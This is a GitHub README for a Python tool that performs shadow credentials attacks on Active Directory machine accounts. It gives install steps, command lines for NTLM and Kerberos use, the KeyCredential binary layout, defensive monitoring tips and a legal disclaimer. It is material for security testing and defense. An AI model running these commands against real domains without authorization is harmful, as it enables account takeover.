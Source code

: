 # Shadow Credentials Attack Tool

A Python implementation for performing shadow credentials attacks against Active Directory machine accounts.

## Features

- ✅ Implements Microsoft's exact binary structure for KeyCredentials
- ✅ Supports both NTLM and Kerberos authentication
- ✅ Generates compliant certificates with Smart Card Logon EKU
- ✅ Preserves existing credentials when adding new ones
- ✅ Enforces LDAPS with certificate validation
- ✅ Secure memory cleanup of sensitive data

## Installation

```bash
git clone [https://github.com/wutless/shadowcreds](https://github.com/wutless/shadowcreds)
cd shadow-creds
pip install -r requirements.txt
```

## Usage

### Basic Authentication
```bash
python3 shadow_creds.py -d dc01.corp.local -u username -p password -t TARGET$
```

### Kerberos Authentication
```bash
export KRB5CCNAME=/path/to/ticket.ccache
python3 shadow_creds.py -d dc01.corp.local -k -t TARGET$
```

### Remove Credentials
```bash
python3 shadow_creds.py -d dc01.corp.local -k -t TARGET$ --remove
```

## Command Line Arguments

| Argument          | Description                                      |
|-------------------|--------------------------------------------------|
| `-d`, `--domain`   | Domain controller hostname (required)            |
| `-u`, `--username` | Username for NTLM authentication                 |
| `-p`, `--password` | Password for NTLM authentication                 |
| `-k`, `--kerberos` | Use Kerberos authentication from ccache          |
| `-t`, `--target`   | Target machine name (with $ suffix)              |
| `-o`, `--output`   | Base filename for key material output            |
| `-r`, `--remove`   | Remove shadow credentials                        |
| `-v`, `--verbose`  | Enable verbose output                            |

## Technical Implementation

The tool implements the exact binary structure that Active Directory expects for KeyCredentials:

```text
Version        : 4 bytes
Flags          : 4 bytes
KeyId          : 16 bytes (GUID)
CreationTime   : 8 bytes (FILETIME)
KeyUsage       : 4 bytes
KeyProvider    : 4 bytes
DeviceId       : 16 bytes (GUID)
KeyMaterialLen : 4 bytes
KeyMaterial    : Variable (DER certificate)
CustomDataLen  : 4 bytes
CustomData     : Variable
```

## Defense Considerations

- 🔍 Monitor for unexpected modifications to `msDS-KeyCredentialLink`
- 🔒 Restrict write permissions on machine accounts
- ⚠️ Enable "PKINIT Freshness" protection (Windows Server 2019+)
- 📊 Review certificate authentication events

## References

- [Microsoft KeyCredential Documentation](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/a90263c5-75c6-4d90-8f51-d3e8f6b69861)
- [Shadow Credentials Attack Explained](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)

## Legal Disclaimer

This tool is provided for **authorized security testing** and **educational purposes** only. Unauthorized use against systems without explicit permission is illegal.
